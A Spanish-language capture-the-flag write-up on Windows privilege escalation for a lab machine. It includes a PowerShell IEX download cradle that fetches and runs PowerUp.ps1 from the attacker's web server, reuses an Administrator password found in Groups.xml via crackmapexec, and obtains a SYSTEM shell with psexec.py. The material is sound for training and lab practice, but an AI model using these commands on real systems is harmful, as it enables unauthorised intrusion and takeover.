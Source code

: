 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami /priv
#Output

SEImpersonatePrivilege
```

Aqui ya vemos que podemos escalar privilegios con `JuicyPotatoe.exe` o `RotenPotatoe.exe` pero S4vitar nos
muestra aqui una via alternativa de escalar privilegios en esta maquina.

```bash
git clone https://github.com/PowerShellMafia/PowerSploit
cd PowerSploit
cd Privesc
vi PowerUp.ps1
```

Aqui vamos a hacer lo mismo que con el fichero `PS.ps1`. En vez de enviarlo y despues invocarlo, matamos dos pajaros
de un tiro y añadimos el **Invoke** al final del fichero `PowerUp.ps1`

```bash
Invoke-AllChecks
```

1. Creamos un servicio web con python

    ```bash
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/PowerUp.ps1')
    ```

Este script nos reporta un monton de cosas y aqui podemos ver

- SEImpersonatePrivilege
- Service UsoSvc
- encotro la contraseña para el usuario Administrator en un fichero Groups.xml

### Validamos las credenciales del usuario Administrator {-}

```bash
crackmapexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
```

Ya vemos un **[+]** y un **(Pwn3d)**. Quiere decir que podemos connectarnos al systema con `psexec`

### Conneccion con psexec.py {-}

```bash
psexec.py WORKGROUP/Administrator@10.10.10.125 cmd.exe

whoami
#Output
nt authority\system
```
